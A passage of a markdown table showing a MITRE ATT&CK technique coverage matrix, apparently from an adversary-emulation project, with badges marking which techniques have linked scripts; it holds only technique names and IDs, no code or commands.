![T1498.002](https://img.shields.io/badge/T1498.002-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Reflection Amplification</sub> |
| ![[T1078](../../ttp/initial_access/guest_account.sh)](https://img.shields.io/badge/T1078-lightgrey?style=for-the-badge&label=%202%20&labelColor=3bc05a&color=494949)</br><sub>Valid Accounts</sub> | ![T1072](https://img.shields.io/badge/T1072-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Software Deployment Tools</sub> | ![T1037.002](https://img.shields.io/badge/T1037.002-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Login Hook</sub> | ![T1078.001](https://img.shields.io/badge/T1078.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Default Accounts</sub> | ![T1036.008](https://img.shields.io/badge/T1036.008-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Masquerade File Type</sub> | ![T1558](https://img.shields.io/badge/T1558-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Steal or Forge Kerberos Tickets</sub> | ![T1120](https://img.shields.io/badge/T1120-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Peripheral Device Discovery</sub> |  | ![T1074.002](https://img.shields.io/badge/T1074.002-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Remote Data Staging</sub> | ![T1071.003](https://img.shields.io/badge/T1071.003-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Mail Protocols</sub> | ![T1052.001](https://img.shields.io/badge/T1052.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Exfiltration over USB</sub> | ![T1499.002](https://img.shields.io/badge/T1499.002-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Service Exhaustion Flood</sub> |
| ![T1566.004](https://img.shields.io/badge/T1566.004-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Spearphishing Voice</sub> | ![T1059.004](https://img.shields.io/badge/T1059.004-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Unix Shell</sub> | ![T1205](https://img.shields.io/badge/T1205-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Traffic Signaling</sub> | ![T1546.005](https://img.shields.io/badge/T1546.005-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Trap</sub> | ![T1564](https://img.shields.io/badge/T1564-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Hide Artifacts</sub> | ![T1555](https://img.shields.io/badge/T1555-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Credentials from Password Stores</sub> | ![T1082](https://img.shields.io/badge/T1082-lightgrey?style=for-the-badge&label=%20!%20&labelColor=ffde59&color=494949)</br><sub>System Information Discovery</sub> |  | ![T1005](https://img.shields.io/badge/T1005-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Data from Local System</sub> | ![T1092](https://img.shields.io/badge/T1092-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Communication Through Removable Media</sub> | ![T1567.003](https://img.shields.io/badge/T1567.003-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Exfiltration to Text Storage Sites</sub> | ![T1491](https://img.shields.io/badge/T1491-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Defacement</sub> |
| ![T1195.002](https://img.shields.io/badge/T1195.002-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Compromise Software Supply Chain</sub> | ![T1559](https://img.shields.io/badge/T1559-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Inter-Process Communication</sub> | ![T1543.004](https://img.shields.io/badge/T1543.004-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Launch Daemon</sub> | ![T1574.006](https://img.shields.io/badge/T1574.006-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Dynamic Linker Hijacking</sub> | ![T1497.001](https://img.shields.io/badge/T1497.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>System Checks</sub> | ![T1552](https://img.shields.io/badge/T1552-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Unsecured Credentials</sub> | ![T1016.002](https://img.shields.io/badge/T1016.002-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Wi-Fi Discovery</sub> |  | ![T1560.002](https://img.shields.io/badge/T1560.002-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Archive via Library</sub> | ![T1090.002](https://img.shields.io/badge/T1090.002-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>External Proxy</sub> | ![T1567.002](https://img.shields.io/badge/T1567.002-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Exfiltration to Cloud Storage</sub> | ![T1657](https://img.shields.io/badge/T1657-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Financial Theft</sub> |
| ![T1078.002](https://img.shields.io/badge/T1078.002-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Domain Accounts</sub> | ![T1203](https://img.shields.io/badge/T1203-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Exploitation for Client Execution</sub> | ![T1505.003](https://img.shields.io/badge/T1505.003-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Web Shell</sub> | ![T1548](https://img.shields.io/badge/T1548-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Abuse Elevation Control Mechanism</sub> | ![T1070.002](https://img.shields.io/badge/T1070.002-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Clear Linux or Mac System Logs</sub> | ![T1555.003](https://img.shields.io/badge/T1555.003-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Credentials from Web Browsers</sub> | ![T1010](https://img.shields.io/badge/T1010-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Application Window Discovery</sub> |  | ![T1560](https://img.shields.io/badge/T1560-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Archive Collected Data</sub> | ![T1090](https://img.shields.io/badge/T1090-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Proxy</sub> | ![T1030](https://img.shields.io/badge/T1030-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Data Transfer Size Limits</sub> | ![T1491.001](https://img.shields.io/badge/T1491.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Internal Defacement</sub> |
| ![T1200](https://img.shields.io/badge/T1200-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Hardware Additions</sub> | ![[T1059.006](../../ttp/discovery/browser_history.sh)](https://img.shields.io/badge/T1059.006-lightgrey?style=for-the-badge&label=%201%20&labelColor=3bc05a&color=494949)</br><sub>Python</sub> | ![T1078.001](https://img.shields.io/badge/T1078.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Default Accounts</sub> | ![T1548.001](https://img.shields.io/badge/T1548.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Setuid and Setgid</sub> | ![T1027.008](https://img.shields.io/badge/T1027.008-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Stripped Payloads</sub> | ![T1557.003](https://img.shields.io/badge/T1557.003-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>DHCP Spoofing</sub> | ![T1497.003](https://img.shields.io/badge/T1497.003-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Time Based Evasion</sub> |  | ![T1557.003](https://img.shields.io/badge/T1557.003-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>DHCP Spoofing</sub> | ![T1568](https://img.shields.io/badge/T1568-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Dynamic Resolution</sub> | ![T1052](https://img.shields.io/badge/T1052-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Exfiltration Over Physical Medium</sub> | ![T1565](https://img.shields.io/badge/T1565-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Data Manipulation</sub> |
| ![T1189](https://img.shields.io/badge/T1189-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Drive-by Compromise</sub> | ![T1569](https://img.shields.io/badge/T1569-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>System Services</sub> | ![T1546.005](https://img.shields.io/badge/T1546.005-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Trap</sub> | ![T1098.004](https://img.shields.io/badge/T1098.004-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>SSH Authorized Keys</sub> | ![T1553.001](https://img.shields.io/badge/T1553.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Gatekeeper Bypass</sub> | ![T1552.004](https://img.shields.io/badge/T1552.004-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Private Keys</sub> | ![[T1217](../../ttp/discovery/browser_history.sh)](https://img.shields.io/badge/T1217-lightgrey?style=for-the-badge&label=%204%20&labelColor=3bc05a&color=494949)</br><sub>Browser Information Discovery</sub> |  | ![T1056.003](https://img.shields.io/badge/T1056.003-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Web Portal Capture</sub> | ![T1102](https://img.shields.io/badge/T1102-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Web Service</sub> | ![T1048.003](https://img.shields.io/badge/T1048.003-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Exfiltration Over Unencrypted Non-C2 Protocol</sub> | ![T1531](https://img.shields.io/badge/T1531-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Account Access Removal</sub> |
| ![T1566.003](https://img.shields.io/badge/T1566.003-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Spearphishing via Service</sub> | ![T1059.005](https://img.shields.io/badge/T1059.005-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Visual Basic</sub> | ![T1574.006](https://img.shields.io/badge/T1574.006-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Dynamic Linker Hijacking</sub> | ![T1547.015](https://img.shields.io/badge/T1547.015-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Login Items</sub> | ![T1553.002](https://img.shields.io/badge/T1553.002-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Code Signing</sub> | ![T1110.003](https://img.shields.io/badge/T1110.003-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Password Spraying</sub> | ![T1016](https://img.shields.io/badge/T1016-lightgrey?style=for-the-badge&label=%20!%20&labelColor=ffde59&color=494949)</br><sub>System Network Configuration Discovery</sub> |  | ![T1125](https://img.shields.io/badge/T1125-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Video Capture</sub> | ![T1568.003](https://img.shields.io/badge/T1568.003-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>DNS Calculation</sub> |  | ![T1486](https://img.shields.io/badge/T1486-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Data Encrypted for Impact</sub> |
| ![T1078.003](https://img.shields.io/badge/T1078.003-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Local Accounts</sub> | ![T1204.001](https://img.shields.io/badge/T1204.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Malicious Link</sub> | ![T1136.001](https://img.shields.io/badge/T1136.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Local Account</sub> | ![T1546.014](https://img.shields.io/badge/T1546.014-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Emond</sub> | ![T1036.009](https://img.shields.io/badge/T1036.009-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Break Process Trees</sub> | ![T1056.003](https://img.shields.io/badge/T1056.003-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Web Portal Capture</sub> | ![T1087](https://img.shields.io/badge/T1087-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Account Discovery</sub> |  | ![T1114.003](https://img.shields.io/badge/T1114.003-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Email Forwarding Rule</sub> | ![T1104](https://img.shields.io/badge/T1104-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Multi-Stage Channels</sub> |  | ![T1499](https://img.shields.io/badge/T1499-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Endpoint Denial of Service</sub> |
|  | ![T1053.002](https://img.shields.io/badge/T1053.002-lightgrey?style=for-the-badge&label=%20!%20&labelColor=ffde59&color=494949)</br><sub>At</sub> | ![T1098.004](https://img.shields.io/badge/T1098.004-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>SSH Authorized Keys</sub> | ![T1098](https://img.shields.io/badge/T1098-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Account Manipulation</sub> | ![T1070.007](https://img.shields.io/badge/T1070.007-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Clear Network Connection History and Configurations</sub> | ![T1649](https://img.shields.io/badge/T1649-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Steal or Forge Authentication Certificates</sub> | ![T1083](https://img.shields.io/badge/T1083-lightgrey?style=for-the-badge&label=%20!%20&labelColor=ffde59&color=494949)</br><sub>File and Directory Discovery</sub> |  | ![T1074](https://img.shields.io/badge/T1074-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Data Staged</sub> | ![T1205.001](https://img.shields.io/badge/T1205.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Port Knocking</sub> |  | ![T1496](https://img.shields.io/badge/T1496-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Resource Hijacking</sub> |
|  |  | ![T1136.002](https://img.shields.io/badge/T1136.002-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Domain Account</sub> | ![T1547.006](https://img.shields.io/badge/T1547.006-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Kernel Modules and Extensions</sub> | ![T1070.003](https://img.shields.io/badge/T1070.003-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Clear Command History</sub> | ![T1552.003](https://img.shields.io/badge/T1552.003-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Bash History</sub> | ![T1049](https://img.shields.io/badge/T1049-lightgrey?style=for-the-badge&label=%20!%20&labelColor=ffde59&color=494949)</br><sub>System Network Connections Discovery</sub> |  | ![T1056.002](https://img.shields.io/badge/T1056.002-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>GUI Input Capture</sub> | ![T1071.002](https://img.shields.io/badge/T1071.002-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>File Transfer Protocols</sub> |  | ![T1565.002](https://img.shields.io/badge/T1565.002-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Transmitted Data Manipulation</sub> |
|  |  | ![T1542.002](https://img.shields.io/badge/T1542.002-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Component Firmware</sub> | ![T1574](https://img.shields.io/badge/T1574-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Hijack Execution Flow</sub> | ![[T1140](../../ttp/discovery/browser_history.sh)](https://img.shields.io/badge/T1140-lightgrey?style=for-the-badge&label=%201%20&labelColor=3bc05a&color=494949)</br><sub>Deobfuscate/Decode Files or Information</sub> | ![T1552.001](https://img.shields.io/badge/T1552.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Credentials In Files</sub> | ![T1497](https://img.shields.io/badge/T1497-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Virtualization/Sandbox Evasion</sub> |  | ![T1039](https://img.shields.io/badge/T1039-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Data from Network Shared Drive</sub> | ![T1102.003](https://img.shields.io/badge/T1102.003-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>One-Way Communication</sub> |  | ![T1485](https://img.shields.io/badge/T1485-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Data Destruction</sub> |
|  |  | ![T1542](https://img.shields.io/badge/T1542-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Pre-OS Boot</sub> | ![[T1078](../../ttp/initial_access/guest_account.sh)](https://img.shields.io/badge/T1078-lightgrey?style=for-the-badge&label=%202%20&labelColor=3bc05a&color=494949)</br><sub>Valid Accounts</sub> | ![T1562](https://img.shields.io/badge/T1562-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Impair Defenses</sub> | ![T1606.001](https://img.shields.io/badge/T1606.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Web Cookies</sub> | ![T1654](https://img.shields.io/badge/T1654-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Log Enumeration</sub> |  | ![T1056](https://img.shields.io/badge/T1056-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Input Capture</sub> | ![T1090.003](https://img.shields.io/badge/T1090.003-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Multi-hop Proxy</sub> |  | ![T1498](https://img.shields.io/badge/T1498-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Network Denial of Service</sub> |
|  |  | ![T1547.015](https://img.shields.io/badge/T1547.015-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Login Items</sub> | ![T1068](https://img.shields.io/badge/T1068-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Exploitation for Privilege Escalation</sub> | ![T1036](https://img.shields.io/badge/T1036-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Masquerading</sub> | ![T1606](https://img.shields.io/badge/T1606-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Forge Web Credentials</sub> | ![T1057](https://img.shields.io/badge/T1057-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Process Discovery</sub> |  | ![T1557.002](https://img.shields.io/badge/T1557.002-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>ARP Cache Poisoning</sub> | ![T1001](https://img.shields.io/badge/T1001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Data Obfuscation</sub> |  | ![T1495](https://img.shields.io/badge/T1495-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Firmware Corruption</sub> |
|  |  | ![T1205.001](https://img.shields.io/badge/T1205.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Port Knocking</sub> | ![T1546](https://img.shields.io/badge/T1546-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Event Triggered Execution</sub> | ![T1070.008](https://img.shields.io/badge/T1070.008-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Clear Mailbox Data</sub> | ![T1621](https://img.shields.io/badge/T1621-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Multi-Factor Authentication Request Generation</sub> | ![T1497.002](https://img.shields.io/badge/T1497.002-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>User Activity Based Checks</sub> |  | ![T1213](https://img.shields.io/badge/T1213-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Data from Information Repositories</sub> | ![T1571](https://img.shields.io/badge/T1571-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Non-Standard Port</sub> |  | ![T1490](https://img.shields.io/badge/T1490-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Inhibit System Recovery</sub> |
|  |  | ![T1554](https://img.shields.io/badge/T1554-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Compromise Host Software Binary</sub> | ![T1546.004](https://img.shields.io/badge/T1546.004-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Unix Shell Configuration Modification</sub> | ![T1055](https://img.shields.io/badge/T1055-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Process Injection</sub> | ![T1212](https://img.shields.io/badge/T1212-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Exploitation for Credential Access</sub> | ![T1069.001](https://img.shields.io/badge/T1069.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Local Groups</sub> |  |  | ![T1573](https://img.shields.io/badge/T1573-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Encrypted Channel</sub> |  | ![T1561.001](https://img.shields.io/badge/T1561.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Disk Content Wipe</sub> |
|  |  | ![T1546.014](https://img.shields.io/badge/T1546.014-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Emond</sub> | ![T1548.004](https://img.shields.io/badge/T1548.004-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Elevated Execution with Prompt</sub> | ![T1205](https://img.shields.io/badge/T1205-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Traffic Signaling</sub> | ![T1056.002](https://img.shields.io/badge/T1056.002-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>GUI Input Capture</sub> | ![T1201](https://img.shields.io/badge/T1201-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Password Policy Discovery</sub> |  |  | ![T1102.002](https://img.shields.io/badge/T1102.002-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Bidirectional Communication</sub> |  | ![T1529](https://img.shields.io/badge/T1529-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>System Shutdown/Reboot</sub> |
|  |  | ![T1098](https://img.shields.io/badge/T1098-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Account Manipulation</sub> | ![T1037.005](https://img.shields.io/badge/T1037.005-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Startup Items</sub> | ![T1218](https://img.shields.io/badge/T1218-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>System Binary Proxy Execution</sub> | ![T1110](https://img.shields.io/badge/T1110-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Brute Force</sub> | ![T1614.001](https://img.shields.io/badge/T1614.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>System Language Discovery</sub> |  |  | ![T1573.002](https://img.shields.io/badge/T1573.002-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Asymmetric Cryptography</sub> |  |  |
|  |  | ![T1547.006](https://img.shields.io/badge/T1547.006-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Kernel Modules and Extensions</sub> | ![T1078.002](https://img.shields.io/badge/T1078.002-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Domain Accounts</sub> | ![T1070.006](https://img.shields.io/badge/T1070.006-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Timestomp</sub> | ![T1110.004](https://img.shields.io/badge/T1110.004-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Credential Stuffing</sub> | ![T1614](https://img.shields.io/badge/T1614-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>System Location Discovery</sub> |  |  | ![T1095](https://img.shields.io/badge/T1095-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Non-Application Layer Protocol</sub> |  |  |
|  |  | ![T1574](https://img.shields.io/badge/T1574-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Hijack Execution Flow</sub> | ![T1543.001](https://img.shields.io/badge/T1543.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Launch Agent</sub> | ![T1620](https://img.shields.io/badge/T1620-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Reflective Code Loading</sub> | ![T1556.006](https://img.shields.io/badge/T1556.006-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Multi-Factor Authentication</sub> | ![[T1518.001](../../ttp/discovery/security_software.sh)](https://img.shields.io/badge/T1518.001-lightgrey?style=for-the-badge&label=%2010%20&labelColor=3bc05a&color=494949)</br><sub>Security Software Discovery</sub> |  |  | ![T1001.003](https://img.shields.io/badge/T1001.003-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Protocol Impersonation</sub> |  |  |
|  |  | ![[T1078](../../ttp/initial_access/guest_account.sh)](https://img.shields.io/badge/T1078-lightgrey?style=for-the-badge&label=%202%20&labelColor=3bc05a&color=494949)</br><sub>Valid Accounts</sub> | ![T1546.016](https://img.shields.io/badge/T1546.016-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Installer Packages</sub> | ![T1564.011](https://img.shields.io/badge/T1564.011-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Ignore Process Interrupts</sub> | ![T1056](https://img.shields.io/badge/T1056-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Input Capture</sub> | ![T1018](https://img.shields.io/badge/T1018-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Remote System Discovery</sub> |  |  | ![T1090.004](https://img.shields.io/badge/T1090.004-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Domain Fronting</sub> |  |  |
|  |  | ![T1556.006](https://img.shields.io/badge/T1556.006-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Multi-Factor Authentication</sub> | ![T1037.004](https://img.shields.io/badge/T1037.004-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>RC Scripts</sub> | ![T1497.003](https://img.shields.io/badge/T1497.003-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Time Based Evasion</sub> | ![T1557.002](https://img.shields.io/badge/T1557.002-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>ARP Cache Poisoning</sub> | ![T1046](https://img.shields.io/badge/T1046-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Network Service Discovery</sub> |  |  | ![T1132](https://img.shields.io/badge/T1132-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Data 